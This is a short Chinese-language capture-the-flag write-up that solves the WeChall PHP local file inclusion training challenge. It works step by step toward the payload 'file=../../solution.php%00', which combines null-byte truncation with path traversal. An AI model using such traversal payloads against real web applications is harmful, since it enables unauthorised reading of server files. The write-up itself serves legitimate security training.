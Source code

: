 ```yaml
---

categories:
- CTF
tags: 
    - web
---
```

 [题目地址](http://www.wechall.net/challenge/training/php/lfi/up/index.php)

首先访问下题目提到的：[http://www.wechall.net/challenge/training/php/lfi/solution.php](http://www.wechall.net/challenge/training/php/lfi/solution.php)
```
You are not allowed to execute this script directly. Please include it using the LFI vuln in up/index.php.
```
## 提示
在主页面（index.php）利用该漏洞访问solution.php
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0826/3.PNG)

>info1: http://www.wechall.net/challenge/training/php/lfi/up/pages/welcome.html
http://www.wechall.net/challenge/training/php/lfi/solution.php
说明需要返回两个上级目录

---

因为需要访问solution.php，于是联想到%00截断
## 实验一
file=news.html%00
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0826/1.PNG)
截断是有效的

## 实验二
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/0826/2.PNG)
打开失败，可以看到报错揭示了路径
>info:  pages/solution.php
路径www/challenge/training/php/lfi/up/pages/news.html

## 实验三
www/challenge/training/php/lfi/up/xx.html
尝试用../返回上层路径。

file=../../solution.php%00
成功进行本地文件包含

